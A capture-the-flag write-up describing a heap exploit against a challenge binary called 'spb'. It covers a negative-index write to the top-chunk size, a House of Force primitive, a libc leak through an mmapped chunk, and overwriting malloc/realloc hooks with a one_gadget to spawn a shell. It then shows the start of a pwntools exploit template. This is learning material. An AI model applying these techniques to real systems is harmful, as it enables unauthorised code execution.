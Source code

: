 And it checks if the input integer is greater or equal to the party size.
If it is then it's terminates the function.
When we get our heap transfered to bss.
There is a topchunk size field on bss.

The else part of this code does is it scans an integer, and checks if it is less than equals to 3.
### We can give negative values here. (;
The later part will write the value we gave to the address of *party + `blablamath`
We can change the top chunk size here By just calculating offset with trial and error.

First i changed the top chunk size to 0.

and allocate a big chunk of size
```py
0x210000
```

The chunk we will recieve will be mmaped chunk. Right before libcbase, ALIGNED.
Selected song contains the address of this mmaped chunk.
We leak libc.
Now we change the Top chunk again to -1.
HOUSE OF FORCE PRIMITIVE AGAIN.

One_gadget constraints weren't matching so,
I change malloc hook (& realloc + 8) and realloc hook to onegaget.

And pop the shell.

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challenge.rgbsec.xyz --port 6969 ./spb
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./spb')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challenge.rgbsec.xyz'
port = int(args.PORT or 6969)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

```
